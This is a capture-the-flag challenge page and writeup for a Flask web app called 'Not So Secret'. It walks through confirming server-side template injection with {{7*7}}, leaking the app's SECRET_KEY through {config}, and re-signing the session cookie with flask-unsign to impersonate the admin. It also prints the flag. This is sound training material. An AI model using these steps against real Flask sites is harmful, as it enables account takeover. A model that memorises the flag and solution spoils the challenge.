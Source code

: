 # Not So Secret

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Not%20So%20Secret/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. 

Someone hacked my site after I read their message, so I am no longer reading DMs send to me! >:( On top of that, I am imposing an even harsher special character filter because I don't actually know how to patch my code.

p.s. To save you some time, don't try getting a reverse shell

### Difficulty
3/10?

### Flag
`PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}`

### Hints
1. Template injection
2. Sign your own cookie

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is vulnerable to template injection. After signing up, send a test SSTI message `{{7*7}}`:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/49.png" width=40%  height=40%></p>

We see that 7*7 was evaluated to 49, so we have successful template injection. There is a filter in place blocking these characters: `._[]|\`. This is so you can't attempt to execute python code to run system commands 'cause I want it solved another way.

In flask, we can have it give us the config file with this `{config}`, so let's try that:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_config.png" width=40%  height=40%></p>

We see a `SECRET_KEY` set to `ifXEaNLEiDLIuquyRKzfeJJWzntoIm`. If we have the app's secret key, we can sign the session cookies used by the app. We'll use a tool called `flask-unsign` to do this for us (install w/ `pip3 install flask-unsign`).

Let's first decode our user's session cookie so we know the format. I use the Firefox extension `cookie editor` to do all of this:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/cookie_editor.png" width=40%  height=40%></p>

```console
$ flask-unsign --decode --cookie '.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsv3B3oyLwQ.YieZSw.Fox-K5Pj1Zq30KG5ZngqBFzRce8'

{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '2'}
```
We see that the `_user_id` key has a value of `2`. We can assume that the admin user's `_user_id` must be `1`. Let's sign our new key:

```console
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '1'}" --secret 'ifXEaNLEiDLIuquyRKzfeJJWzntoIm'

.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsr3B3ovLwM.YieaAA.nYGnkeNzCLq7xT-gp_KWw8lrFrs
```

The final step is to change our session cookie value to the one we just got, and reload the webpage. We should be admin and have access to the admin panel:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_flag.png" width=60%  height=60%></p>
